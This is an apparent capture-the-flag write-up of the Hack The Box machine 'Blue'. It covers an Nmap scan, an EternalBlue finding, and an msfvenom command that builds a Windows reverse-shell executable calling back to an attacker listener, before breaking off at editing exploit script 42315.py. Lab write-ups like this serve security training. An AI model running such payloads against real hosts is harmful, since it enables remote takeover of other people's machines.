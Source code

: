 Blue without Metasploit:

![Blue](https://user-images.githubusercontent.com/55708909/91400272-fe577080-e85c-11ea-83eb-62df0e7decde.png)

tarting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.40

![Blue_nmap](https://user-images.githubusercontent.com/55708909/91406950-14b2fb80-e860-11ea-963e-24b543e3b6b1.png)

Since basic tools doesn't work therefore again i run nmap vulnerability scan its a kind of methodolgy which is helpful for me.

![Blue_vuln](https://user-images.githubusercontent.com/55708909/91407940-a91d5e00-e860-11ea-9af1-7b89d7ce97fb.png)


Nmap found only one vulnerability that is eternal blue so we are going to exploit it.

![Blue_exploit](https://user-images.githubusercontent.com/55708909/91408457-8b042d80-e861-11ea-90ee-cb9a68007cd4.png)

First create a payload using msfvenom 

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

edit 42315.py files

![42315_PART_1](https://user-images.githubusercontent.com/55708909/91409346-eaaf0880-e862-11ea-8b35-88a345bb3cf7.png)









